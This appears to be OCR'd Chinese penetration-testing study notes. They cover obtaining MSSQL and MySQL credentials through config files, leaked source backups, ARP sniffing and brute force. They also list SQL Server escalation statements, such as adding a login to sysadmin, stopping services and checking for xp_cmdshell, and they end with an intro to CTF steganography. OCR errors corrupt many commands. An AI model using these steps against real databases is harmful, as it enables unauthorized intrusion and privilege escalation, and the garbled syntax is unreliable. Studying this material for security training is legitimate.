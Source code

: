 - **1、Webshell或源码获取**
 - **一般在网站的配置文件中有存放明文账号密码， 常用配置文件名如: conn.aspx. config.aspx、 config.php.web.config等。一般格式如: server=localhost;UID=sa;PWD= ichunqiu;database= ichunqiu。**
- **2、源代码泄露**
 - **网站源码泄露情况主要以程序员上传代码到git等开源平台或更新代码时未删除备份文件(.svn、 .git. .bak), 以及运维人员打包源代码到网站服务器(www.rar等)**
- **3、嗅探**
 - **在局域网中使用cain等. I具进行arp嗅探的时候可以抓取到1433端口的数据库明文登录密码。**
- **4、口令暴力破解**
 - **利用mssq|暴力破解工具对mssq|进行暴力破解，一旦成功将获得sa相应权限。**

### <font color = #FF0000>常用的SQL Server提权语句</font>
- **1、查看数据库版本**
        select @ @version
- **2、查看数据库系统参数**
        exec master..xp_ msver;
- **3、查看用户所属角色信息**
        sp_ helpsrvrolemember
- **4、查看当前数据库**
        select db_ name()
- **5、显示机器.上的驱动器**
        xp_availablemedia
- **1、查看当前账户权限**
        select IS_ SRVROLEMEMBER('sysadmin')
        以下类似serveradmin、setupadmin、 securityadmin、 diskadmin、 bulkadminselect IS_ .MEMBER(' db_ _owner') I
- **2、添加用户**
        exec master.dbo.sp addlogin test,password #添加用户
        exec master.dbo.sp_ addsrvrolemember test,sysadmin #加权限
- **3、启动停止服务**
        exec master. .xp_ servicecontrol 'stop','test'
        exec master..xp_ servicecontrol 'start'test'
- **4、检查功能**
        SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'xp_ _cmdshell'
        xp_ cmdshell. xp_ regread、 sp_ makewebtask. xp_ subdirs、 xp_ _dirtree、 sp_ addextendedproc

## <font color = #1E90FF>MySQL数据库漏洞利用与提权</font>
- **1.一般Mysql数据库经常使用php进行连接，会有较少的情况使用jsp、 python等**
- **2、Mysq|连接文件一般为 conn.php、config.php. common.inc.php.config.inc.php等**
- **3、所说的mysql权限提升一般在root权限下**

### <font color = #FF0000>密码获取与破解</font>
- **1、数据库查询**
        select Host,user,password from mysql.user #需要有root权限
- **2、配置文件中读取**
 - **网站源码泄露情况主要以程序员上传代码到git等开源平台或更新代码时未删除备份文件(.svn、 .git. .bak), 以及运维人员打包源代码到网站服务器(www.rar等) 。**
- **3、下载user文件**
        user文件在mysql的data目录下
        select @ @basedir
        select @@plugin_ dir #>5.1

## <font color = #1E90FF>图片隐写</font>
### <font color = #FF0000>Misc简介</font>
__Misc为英文miscellaneous的前四个字母,杂项、混合体、大杂烩的意思。__<BR>
__主要类型:__<br>
 - **1.数据编码/图形密码**
 - **2.图片隐写**
 - **3.音频&视频隐写**
 - **4.流量分析**
 - **5.内存取证**
 - **6.游戏隐写**
